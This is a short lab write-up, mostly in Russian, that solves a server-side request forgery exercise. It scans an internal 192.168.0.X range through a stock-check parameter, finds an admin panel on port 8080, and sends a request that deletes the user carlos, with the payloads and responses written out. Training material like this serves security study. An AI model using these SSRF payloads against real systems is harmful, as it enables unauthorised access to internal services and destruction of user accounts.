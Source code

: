 # Lab: Basic SSRF against another back-end system

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.

## Решение
Заряжаю интрудер на перебор 0-255:
`stockApi=http://192.168.0.§0§:8080`

Запрос с параметром `stockApi=http://192.168.0.86:8080` возвращается с ошибой 404:

```
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```
Добавляю к URL /admin: `stockApi=http://192.168.0.86:8080/admin`. В ответ приходит админский интерфейс:
```
<section>
    <h1>Users</h1>
    <div>
        <span>wiener - </span>
        <a href="/http://192.168.0.86:8080/admin/delete?username=wiener">Delete</a>
    </div>
    <div>
        <span>carlos - </span>
        <a href="/http://192.168.0.86:8080/admin/delete?username=carlos">Delete</a>
    </div>
</section>
```
`stockApi=http://192.168.0.86:8080/admin/delete?username=carlos`

Задание выполнено.
